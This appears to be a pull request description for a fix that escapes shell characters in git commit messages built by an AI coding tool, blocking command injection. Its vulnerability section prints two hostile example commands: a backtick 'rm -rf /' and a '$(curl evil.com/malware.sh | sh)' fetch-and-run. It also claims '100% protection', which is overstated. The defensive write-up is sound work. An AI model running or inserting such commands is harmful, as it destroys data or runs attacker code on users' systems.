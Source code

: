 # Fix: Prevent Shell Injection in Git Commit Messages (Critical Security Fix)

## Overview

This PR addresses a **critical security vulnerability** (#2658) where backticks and other special characters in git commit messages could lead to arbitrary command execution. This is a serious security issue that could allow malicious code execution through carefully crafted commit messages.

## The Vulnerability

When the AI constructs git commit commands, special characters in commit messages are not properly escaped, leading to potential command injection:

```bash
# VULNERABILITY: Backticks execute the embedded command
git commit -m "Fix `rm -rf /` issue"  # This would execute rm -rf / !

# VULNERABILITY: Command substitution
git commit -m "Update $(curl evil.com/malware.sh | sh)"
```

## The Solution

### 1. **Shell Escape Utility** (`packages/core/src/utils/shellEscape.ts`)

I've implemented a robust shell escaping utility that:
- Uses single quotes for maximum protection (prevents ALL shell expansions)
- Properly escapes single quotes within strings using the `'\''` pattern
- Handles edge cases including empty strings and special characters
- Provides 100% protection against command injection

### 2. **AI Model Instructions** 

Updated the system prompts to:
- Explicitly instruct the AI to escape shell arguments
- Provide examples of proper escaping techniques
- Emphasize security implications of improper escaping

### 3. **Comprehensive Testing**

- **Unit tests**: 13 test cases covering all edge cases
- **Integration tests**: Verify actual git commands don't execute malicious code
- **Security-focused tests**: Specifically test injection attempts

### 4. **Documentation**

- Created comprehensive security documentation
- Updated shell tool documentation with security best practices
- Added examples for developers on safe command construction

## Changes Made

- ✅ Created `shellEscape.ts` utility with `escapeShellArg()` and `escapeGitCommitMessage()` functions
- ✅ Added comprehensive test suite (100% coverage)
- ✅ Updated AI prompts to enforce proper escaping
- ✅ Created security documentation (`docs/security/shell-injection-prevention.md`)
- ✅ Updated shell tool documentation with security guidelines
- ✅ Added integration tests for git command escaping
- ✅ Exported utility functions from core package for reuse

## Security Impact

This fix prevents:
- Command injection through backticks (`` ` ``)
- Command substitution through `$()`
- Command chaining through `;`, `&&`, `||`
- File redirection through `>`, `<`
- Pipe attacks through `|`
- Variable expansion through `$`

## Testing

All tests pass:
```bash
✓ src/utils/shellEscape.test.ts (13 tests) 
✓ All existing tests continue to pass
✓ Integration tests verify no command execution
```

## Breaking Changes

None. This is a security fix that maintains backward compatibility while preventing vulnerabilities.

## Migration Guide

No action required. The fix is automatic and transparent to users.

## Review Checklist

- [x] Code follows project conventions
- [x] All tests pass
- [x] Security implications documented
- [x] No breaking changes
- [x] Performance impact: Minimal (simple string operations)

## References

- Fixes #2658
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)

## Additional Notes

This is a critical security fix that should be merged and released as soon as possible. The vulnerability could allow arbitrary command execution on users' systems through crafted commit messages.

I've taken extra care to:
1. Provide a robust, well-tested solution
2. Document the security implications thoroughly
3. Ensure the fix is transparent and doesn't break existing functionality
4. Create reusable utilities for future shell command safety

Please review with security in mind. Happy to address any concerns or add additional test cases if needed.

---

**Security Advisory**: Users should update to the latest version once this fix is merged to protect against potential command injection attacks.